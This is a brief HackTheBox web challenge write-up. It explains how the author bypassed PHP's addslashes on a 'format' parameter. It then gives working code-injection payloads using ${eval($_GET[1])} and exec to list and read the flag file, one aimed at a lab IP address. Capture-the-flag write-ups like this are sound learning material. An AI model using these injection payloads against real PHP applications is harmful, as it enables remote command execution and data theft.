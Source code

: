 HackTheBox web challenge. I'm not good at web but took a shot at this one. It was quite interesting.

There was a vulnerable parameter `format` in the code but it was protected by `addslashes` php function. After some googling I found this article that helped me to bypass addslashes:

https://www.programmersought.com/article/30723400042/

I still spent some time trying to find correct way to display the flag. In the end query that worked was:

`?format=${eval($_GET[1])}&1=echo%20exec(%27ls%20-l%20..%20|grep%20flag%27);` - to find flag file name
`http://138.68.158.236:31766/?format=${eval($_GET[1])}&1=echo%20exec(%27cat%20../flagmR6OV%27);` - to display the flag
